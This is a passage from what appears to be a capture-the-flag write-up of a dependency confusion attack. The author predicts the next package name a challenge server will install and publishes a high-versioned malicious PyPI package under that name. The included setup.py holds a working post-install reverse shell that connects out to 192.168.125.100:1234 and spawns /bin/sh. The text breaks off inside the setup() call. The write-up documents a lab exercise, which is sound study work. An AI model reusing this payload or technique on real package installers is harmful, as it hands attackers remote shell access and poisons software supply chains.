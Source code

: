 Perfect i can successfully predict the next package name that the server will install, now back to the dependency confusion attack. Now I predicted the 6th value the server would create.

The next package name will be `749fc4798a51ff3b`

Now i need to create a package named `749fc4798a51ff3b`, use a high version number and upload it to the pypi server the challenge description gave us.

Creating a pip package was quite easy, all i needed to do was create a folder with the following files:
 - setup.py
 - setup.cfg
 - README.md
 - LICENSE.txt
 - 749fc4798a51ff3b/

inside the `749fc4798a51ff3b/` folder from above i created an empty `__init__.py` file.

setup.cfg
```cfg
# Inside of setup.cfg
[metadata]
description-file = README.md
```

README.md
```md
# 749fc4798a51ff3b
```

Now setup.py is where all the magic happens, i am not going to explain the details of creating this file, there are lots of resources online. I just want to point out that my reverse shell is within the `PostInstallCommand` function. From the name one can guess that this function runs after the package has been installed. Also i have specified the package version to be `99.9`

setup.py
```py
from distutils.core import setup
import sys,socket,os,pty
from setuptools import setup
from setuptools.command.develop import develop
from setuptools.command.install import install

class PostDevelopCommand(develop):
    """Post-installation for development mode."""
    def run(self):
        develop.run(self)
        # PUT YOUR POST-INSTALL SCRIPT HERE or CALL A FUNCTION

class PostInstallCommand(install):
    """Post-installation for installation mode."""
    def run(self):
        RHOST="192.168.125.100"
        RPORT=1234

        s=socket.socket()
        s.connect((RHOST,int(RPORT)))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")
        install.run(self)


setup(
  name = '749fc4798a51ff3b',         # How you named your package folder (MyLib)
  packages = ['749fc4798a51ff3b'],   # Chose the same as "name"
  version = '99.9',      # Start with a small number and increase it with every change you make
  license='MIT',        # Chose a license from here: https://help.github.com/articles/licensing-a-repository
```